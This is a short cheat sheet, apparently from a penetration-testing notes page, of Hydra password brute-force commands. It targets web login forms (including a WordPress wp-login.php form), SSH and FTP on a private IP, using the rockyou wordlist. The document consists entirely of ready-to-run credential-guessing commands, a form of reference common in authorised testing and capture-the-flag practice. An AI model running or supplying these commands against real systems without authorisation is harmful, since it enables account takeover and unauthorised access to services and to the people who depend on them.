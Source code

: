 ### Hydra Bruteforcing Commands

#### Post Web Form
```
hydra -l username -P <password_list> 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The passowrd you entered for the username" -t 30
```
```
hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```
#### SSH
```
hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ssh 
```
#### FTP
```
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.1
```
